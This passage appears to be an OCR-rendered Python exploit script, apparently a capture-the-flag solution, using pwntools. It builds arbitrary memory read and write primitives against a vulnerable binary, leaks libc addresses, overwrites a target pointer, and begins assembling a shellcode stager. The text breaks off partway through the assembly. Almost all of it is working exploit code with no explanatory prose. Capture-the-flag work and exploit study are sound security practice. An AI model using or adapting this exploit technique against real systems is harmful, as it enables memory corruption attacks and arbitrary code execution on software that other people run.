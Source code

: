 ```python
    dev = leak - 0x100
    back()

    libc_ptr = dev + 0x1110

    def aar(where):
        switch_freespace()
        payload = b''
        payload += b'a'*(0x8)
        payload += flat(where)
        if b'\x7f' in payload:
            payload = payload.split(b'\x7f')[0]
            payload += b'\x04'
        else:
            payload += b'\x0a'

        write_freespace(0x3fffeff8, len(payload)-1, payload)
        back()
        switch_fixed()
        read_fixed(0)

        r.recvuntil(b'Output: ')
        binleak = b''
        while len(binleak) < 8:
            binleak += r.recv(1)
        back()
        return u64(binleak)

    def aaw(where, what):
        switch_freespace()
        payload = b''
        payload += b'a'*(0x8)
        payload += flat(where)
        if b'\x7f' in payload:
            payload = payload.split(b'\x7f')[0]
            payload += b'\x04'
        else:
            payload += b'\x0a'

        write_freespace(0x3fffeff8, len(payload), payload)
        back()
        switch_fixed()
        if b'\x7f' in what:
            what = what.split(b'\x7f')[0]
        write_fixed(0, what)
        back()

    base = aar(libc_ptr)
    leak = aar(base + 0x185160)
    target = leak - 0x128
    payload = b''
    payload += p64(target+8)
    payload = payload.split(b'\x7f')[0]+b'\x04'
    aaw(target, payload)

    payload = b''
    payload += asm('''
        nop
        push rsp
        pop rsi
        xor edi, edi
        mov dl, 0x7a
        syscall
```